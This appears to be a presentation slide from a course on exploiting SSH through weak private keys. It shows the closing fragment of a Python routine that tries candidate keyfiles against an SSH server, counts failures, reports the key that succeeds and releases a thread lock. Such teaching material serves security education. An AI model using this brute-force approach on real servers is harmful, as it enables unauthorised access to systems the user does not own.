

# Exploiting SSH Through Weak Private Keys CONTD..

        elif ret == 3:
            print('[-] Connection Closed By Remote Host')
            Fails += 1
        elif ret > 3:
            print('[+] Success. {}'.format(keyfile))
            Stop = True
    except Exception as e:
        print(e)
    finally:
        if release:
            connection_lock.release()